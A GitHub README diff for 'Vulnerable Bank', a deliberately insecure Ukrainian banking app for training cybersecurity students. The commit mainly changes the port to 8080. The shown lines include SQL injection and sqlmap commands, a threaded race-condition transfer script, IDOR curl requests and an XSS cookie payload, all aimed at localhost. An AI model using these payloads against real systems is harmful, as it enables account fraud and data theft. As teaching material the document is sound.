

Before and after one commit to PirogovAleksey/vulnerable-bank, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 86% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs: Update README with correct port (8080) and link to practical work

````diff
--- a/README.md
+++ b/README.md
@@ -3,6 +3,10 @@
 ## 📖 Про проект
 
 **Vulnerable Bank** - це навчальна банківська веб-аплікація з множинними вразливостями безпеки, розроблена для практичного навчання студентів спеціальності "Кібербезпека" навичкам пентестингу та аналізу безпеки фінансових систем.
+
+### 📚 Практична робота для студентів
+Детальна практична робота з покроковими інструкціями доступна в репозиторії:
+**[Banking Information Systems - Practical Work](https://github.com/PirogovAleksey/banking-information-systems)**
 
 ### Курс
 **Інформаційні банківські технології** (3 курс, Кібербезпека)
@@ -208,7 +213,7 @@ Username: admin' OR '1'='1' --
 Password: anything
 
 # SQLMap
-sqlmap -u "http://localhost:5000/login" \
+sqlmap -u "http://localhost:8080/login" \
   --data "username=admin&password=test" \
   --batch --dbs
 ```
@@ -220,17 +225,17 @@ import requests
 import threading
 
 def transfer(session, amount):
-    session.post('http://localhost:5000/transfer',
+    session.post('http://localhost:8080/transfer',
                 data={'to_account': '1000000003', 'amount': amount})
 
 # Login
 s = requests.Session()
-s.post('http://localhost:5000/login',
-       data={'username': 'bob', 'password': 'qwerty'})
+s.post('http://localhost:8080/login',
+       data={'username': 'charlie', 'password': 'password123'})
 
-# Запустити 100 паралельних трансферів по $100
+# Запустити 50 паралельних трансферів по ₴100
 threads = []
-for i in range(100):
+for i in range(50):
     t = threading.Thread(target=transfer, args=(s, 100))
     threads.append(t)
     t.start()
@@ -245,17 +250,17 @@ print("Attack completed! Check if balance went negative.")
 
 ```bash
 # Перегляд свого рахунку (ID=2, john)
-curl -b cookies.txt http://localhost:5000/account/2
+curl -b cookies.txt http://localhost:8080/account/2
 
-# Спроба переглянути чужий рахунок (ID=3, alice)
-curl -b cookies.txt http://localhost:5000/account/3
-# Якщо вразливий - покаже дані alice!
+# Спроба переглянути чужий рахунок (ID=3, jane)
+curl -b cookies.txt http://localhost:8080/account/3
+# Якщо вразливий - покаже дані jane!
 ```
 
 ### Приклад 4: XSS
 
 ```
-1. Відкрити: http://localhost:5000/search?q=<script>alert(document.cookie)</script>
+1. Відкрити: http://localhost:8080/search?q=<script>alert(document.cookie)</script>
 2. Якщо вразливий - побачите alert з cookies
 ```
 
@@ -446,8 +451,8 @@ docker-compose up -d
 docker network ls | grep vulnerable-bank
 
 # Додатково: firewall rules
-sudo ufw deny from any to any port 5000
-sudo ufw allow from 192.168.1.0/24 to any port 5000
+sudo ufw deny from any to any port 8080
+sudo ufw allow from 192.168.1.0/24 to any port 8080
 ```
 
 ---
````
Also changed, not shown: other parts of README.md (+9 -8 lines).
